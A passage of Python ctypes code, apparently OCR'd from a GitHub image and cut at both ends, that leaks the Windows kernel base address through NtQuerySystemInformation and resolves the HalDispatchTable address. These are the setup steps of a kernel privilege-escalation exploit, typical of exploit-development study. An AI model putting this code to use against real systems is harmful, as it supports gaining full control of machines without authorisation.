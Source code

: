 ```python

    system_information = create_string_buffer(system_information_length.value)

    result = ntdll.NtQuerySystemInformation(
        0xb,
        system_information,
        len(system_information),
        addressof(system_information_length)
    )

    if result == 0x00000000:
        print("[*] Success, allocated {}-byte result buffer.".format(str(len(system_information))))

    elif result == 0xC0000004:
        print("[!] NtQuerySystemInformation failed. NTSTATUS: STATUS_INFO_LENGTH_MISMATCH (0xC0000004)")

    elif result == 0xC0000005:
        print("[!] NtQuerySystemInformation failed. NTSTATUS: STATUS_ACCESS_VIOLATION (0xC0000005)")

    else:
        print("[!] NtQuerySystemInformation failed. NTSTATUS: {}").format(hex(result))

    handle_num = c_ulong()
    memmove(addressof(handle_num), create_string_buffer(system_information[:4]), sizeof(handle_num))
    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))

    system_information = create_string_buffer(system_information[4:])

    counter = 0
    for x in range(0,handle_num.value):
        image_name = system_information[counter + 28: counter + 284].strip("\x00")
        if "ntkrnl" in image_name:
            image_name = image_name.split("\\")[-1]
            print("[*] Kernel Type: {}".format(image_name))            
            base = c_ulong()
            memmove(addressof(base), create_string_buffer(system_information[counter + 8: counter + 12]), sizeof(base))
            kernel_base = hex(base.value)
            if kernel_base[-1] == "L":
                kernel_base = kernel_base[:-1]
                print("[*] Kernel Base: {}".format(kernel_base))
                return image_name, kernel_base
        counter += 284

def hal_calc(image_name, kernel_base):

    # grab a handle to ntkrnl
    kern_handle = kernel32.LoadLibraryA(image_name)
    if kern_handle == None:
        print("[!] LoadLibrary failed to retrieve handle to kernel with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Kernel Handle: {}".format(hex(kern_handle)))

    # use our handle to get the address of the HalDispatchTable in userland
    userland_hal = kernel32.GetProcAddress(kern_handle, "HalDispatchTable")
    if userland_hal == None:
        print("[!] GetProcAddress failed to retrieve HDT address with error: {}".format(str(GetLastError())))
```